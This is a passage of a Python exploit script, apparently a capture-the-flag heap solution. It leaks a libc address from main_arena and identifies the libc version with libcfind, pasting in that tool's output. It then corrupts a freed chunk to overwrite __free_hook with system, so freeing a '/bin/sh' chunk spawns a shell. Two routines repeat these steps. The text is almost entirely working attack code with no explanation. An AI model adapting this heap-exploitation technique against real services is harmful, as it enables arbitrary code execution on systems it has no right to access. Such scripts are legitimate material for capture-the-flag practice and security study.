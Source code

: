 ```python
    print(hex(fd))
    add(1,0x100)
    show(1)
    main_arena=(u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-96)
    #fd=p.recvline()
    print(hex(main_arena))
    malloc_hook=main_arena-0x10
    x=libcfind.finder('__malloc_hook',malloc_hook,num=5)
    """
[-] 0: libc6_2.15-0ubuntu10.23_amd64(source from:ubuntu-eglibc)
[-] 1: libc6-amd64_2.30-0ubuntu2.2_i386(source from:ubuntu-old-glibc)
[-] 2: libc6_2.30-0ubuntu2_amd64(source from:ubuntu-old-glibc)
[-] 3: libc6-amd64_2.31-0ubuntu9.2_i386(source from:ubuntu-glibc)
[-] 4: libc6_2.31-0ubuntu9_amd64(source from:ubuntu-glibc)
[-] 5: local-ad9f264101ca975f82b40fffd5aa6f763cfd1ed9(source from:/usr/lib/x86_64-linux-gnu/libc-2.31.so)
[-] 6: libc6-amd64_2.30-0ubuntu2_i386(source from:ubuntu-old-glibc)
[-] 7: libc6-amd64_2.31-0ubuntu9_i386(source from:ubuntu-glibc)
[-] 8: libc6_2.31-0ubuntu9.2_amd64(source from:ubuntu-glibc)
[-] 9: libc6_2.30-0ubuntu2.2_amd64(source from:ubuntu-old-glibc)
    """
    free(1)
    free(0)
    edit(2,0x420*p8(0)+p64(0)*7+p64(0x111)+p64(x.dump('__free_hook')))
    print('ok1')
    
    add(0,0x100)
    edit(0,'/bin/sh\x00\n')
    print('ok1')
    add(1,0x100)
    edit(1,p64(x.dump('system')))
    free(0)

def leak():
    addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-96
    log.info('main_arena:'+hex(addr))
    malloc_hook=addr-0x10
    log.info('malloc_hook:'+hex(malloc_hook))
    x=libcfind.finder('__malloc_hook',malloc_hook,num=5)
    log.info('base:'+hex(x.libcbase))
    """
    multi libc results:
[-] 0: libc6_2.15-0ubuntu10.23_amd64(source from:ubuntu-eglibc)
[-] 1: libc6-amd64_2.30-0ubuntu2.2_i386(source from:ubuntu-old-glibc)
[-] 2: libc6_2.30-0ubuntu2_amd64(source from:ubuntu-old-glibc)
[-] 3: libc6-amd64_2.31-0ubuntu9.2_i386(source from:ubuntu-glibc)
[-] 4: libc6_2.31-0ubuntu9_amd64(source from:ubuntu-glibc)
[-] 5: local-ad9f264101ca975f82b40fffd5aa6f763cfd1ed9(source from:/usr/lib/x86_64-linux-gnu/libc-2.31.so)
[-] 6: libc6-amd64_2.30-0ubuntu2_i386(source from:ubuntu-old-glibc)
[-] 7: libc6-amd64_2.31-0ubuntu9_i386(source from:ubuntu-glibc)
[-] 8: libc6_2.31-0ubuntu9.2_amd64(source from:ubuntu-glibc)
[-] 9: libc6_2.30-0ubuntu2.2_amd64(source from:ubuntu-old-glibc)
    """
    free(9)
    free(8)
    edit(7,p64(0)+p64(0x71)+p64(x.dump('__free_hook')))
    print('ok1')
    add(8,0x60)
    add(9,0x60)
    print('ok2')
    edit(8,'/bin/sh\x00')
    edit(9,p64(x.dump('system')))
```